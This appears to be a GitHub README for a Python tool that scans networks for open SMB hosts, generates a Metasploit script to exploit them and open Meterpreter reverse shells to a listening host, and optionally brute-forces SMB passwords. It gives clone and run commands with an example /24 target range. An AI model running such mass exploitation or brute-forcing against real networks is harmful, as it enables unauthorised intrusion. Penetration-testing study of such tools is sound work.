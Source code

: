 # SMB Vulnerability Scanner

This Python script is designed to scan for vulnerable SMB (Server Message Block) hosts on a network and exploit them using Metasploit. It can also perform SMB brute-force attacks if a password file is provided.

## How it Works

The script utilizes the `nmap` library to scan the specified network for hosts with port 445 (SMB) open. It then checks if the port is open and adds the target hosts to a list.

Once the targets are identified, the script generates a Metasploit resource script (`meta.rc`) to exploit the discovered vulnerabilities. It sets up a handler for incoming connections, exploits the vulnerabilities using various Metasploit modules, and launches a Meterpreter shell on the compromised hosts.

## Usage

To use the script, follow these steps:

1. Clone the repository to your local machine:
```
git clone https://github.com/blackmagic2023/smb-scanner.git
```
2. Navigate to the script directory:
```
cd smb-scanner
```
3. Run the script with the following command:
```
python3 smb-scanner.py -H <target_host(s)> -l <listening_host> [-p <listening_port> -F <password_file>]
```
Replace `<target_host(s)>` with the target IP address or range (e.g., `192.168.1.0/24`), `<listening_host>` with your local IP address, `<listening_port>` with the port number to listen on (default is `1337`), and `<password_file>` with the file containing passwords for SMB brute-force attacks (optional).

For example:
```
python3 smb-scanner.py -H 192.168.1.0/24 -l 10.0.0.1 -p 4444 -F passwords.txt
```
4. Follow the on-screen instructions and wait for the script to complete the scan and exploitation process.

## Requirements

- Python 3.x
- `nmap` library (install using `pip install python-nmap`)
- Metasploit (install separately and ensure it's in your PATH)

## Disclaimer

This script is for educational purposes only. Use it responsibly and only on systems you own or have explicit permission to test.



